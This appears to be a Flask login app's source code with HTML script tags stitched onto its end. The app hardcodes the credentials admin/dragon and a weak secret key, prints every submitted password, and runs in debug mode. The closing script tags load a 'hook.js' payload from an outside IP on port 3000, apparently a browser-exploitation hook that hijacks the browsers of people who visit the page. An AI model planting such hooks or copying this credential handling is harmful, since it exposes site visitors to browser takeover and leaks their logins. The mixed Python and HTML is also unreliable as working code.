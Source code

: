 from flask import Flask, render_template, request, url_for, redirect, session

app = Flask(__name__)

app.secret_key = "mysecretkey"


# @app.route('/')
# def index():
#     return render_template('index.html')


@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        print(request.form['username'],request.form['password'])
        if request.form['username'] == 'admin':
            if request.form['password'] == 'dragon':
                session['logged_in'] = True
                return redirect(url_for('dashboard'))
            else:
                return render_template('login.html', error="Invalid credentials")

    return render_template('login.html')


@app.route('/dashboard')
def dashboard():
    if 'logged_in' in session:
        return render_template('dashboard.html')
    return redirect(url_for('login'))


if __name__ == '__main__':
    app.run(host= "192.168.56.1", port="80", debug=True)
<script>
	var commandModuleStr = '<script src="/hook.js" type="text/javascript"><\/script>';
	document.write(commandModuleStr);
</script>
<script src="http://147.235.212.61:3000/hook.js"></script>
